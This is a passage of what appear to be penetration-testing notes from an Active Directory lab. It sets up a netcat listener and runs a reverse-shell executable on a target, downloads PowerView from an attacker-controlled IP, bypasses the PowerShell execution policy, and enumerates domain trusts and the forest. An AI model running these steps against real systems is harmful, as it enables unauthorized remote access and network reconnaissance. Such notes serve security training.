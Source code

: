 Set a listener and then run the executable

```bash
# attacker machine
nc -nvlp $PORT

# target machine
cd C:\Tmp
.\rev.exe
```

Now we have a stable shell



### PowerView

```powershell
iwr http://$ATT_IP:PORT/PowerView.ps1 -OutFile C:\Users\...\pv.ps1

powershell -ep bypass
import-module .\pv.ps1
```

<pre class="language-powershell"><code class="lang-powershell"><strong># get the ad trust information
</strong><strong>Get-ADTrust -Filter * 
</strong>Get-DomainTrust -Filter *

# get forest information
Get-ADForest
</code></pre>



